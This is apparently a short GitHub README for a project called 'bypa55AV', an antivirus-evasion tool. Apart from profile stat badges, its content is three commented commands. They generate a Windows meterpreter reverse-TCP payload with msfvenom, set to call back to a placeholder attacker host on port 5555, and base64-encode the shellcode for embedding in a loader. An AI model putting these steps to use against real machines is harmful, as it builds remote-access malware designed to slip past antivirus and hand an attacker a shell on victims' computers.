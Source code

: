 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw
// base64 -w 0 -i rev.raw > rev.bs64
// cat rev.bs64

![Xiao tsai's GitHub stats](https://github-readme-stats.vercel.app/api?username=xiaotsai&show_icons=true)    

<div align="center">  
  <img  src="https://github-readme-streak-stats.herokuapp.com?user=xiaotsai&theme=onedark&date_format=M%20j%5B%2C%20Y%5D" />
</div>

